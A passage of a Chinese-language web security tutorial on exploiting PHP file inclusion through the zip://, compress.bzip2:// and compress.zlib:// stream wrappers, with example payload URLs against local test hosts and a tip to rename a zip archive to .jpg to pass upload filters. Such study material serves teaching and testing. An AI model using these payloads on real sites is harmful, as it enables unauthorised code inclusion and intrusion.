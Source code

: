


### 伪协议利用：zip://、bzip2://、zlib://

利用条件：

1. php版本大于等于php5.3.0



```php
3个封装协议，都是直接打开压缩文件。
compress.zlib://file.gz - 处理的是 '.gz' 后缀的压缩包
compress.bzip2://file.bz2 - 处理的是 '.bz2' 后缀的压缩包
zip://archive.zip#dir/file.txt - 处理的是 '.zip' 后缀的压缩包里的文件
```



但使用zip协议，需要指定绝对路径，同时将`#`编码为`%23`，之后填上压缩包内的文件。



```
index.php?file=zip://D:\phpStudy\WWW\fileinclude\test.zip%23phpinfo.txt
```

**如果可以上传zip文件则上传zip文件，若不能则重命名为test.jpg后上传。**其他几种压缩格式也可以这样操作。



![img](assets/11.png)

更名为jpg
payload:`http://127.0.0.1/xxx.php?a=zip://C:\Users\liuxianglai\Desktop\test.jpg%23zip.txt`

![图片.png](https://upload-images.jianshu.io/upload_images/9113969-d6934913b7389430.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)



若是使用相对路径，则会包含失败。



**bzip2://协议**

**使用方法：**
`compress.bzip2://file.bz2`
相对路径也可以

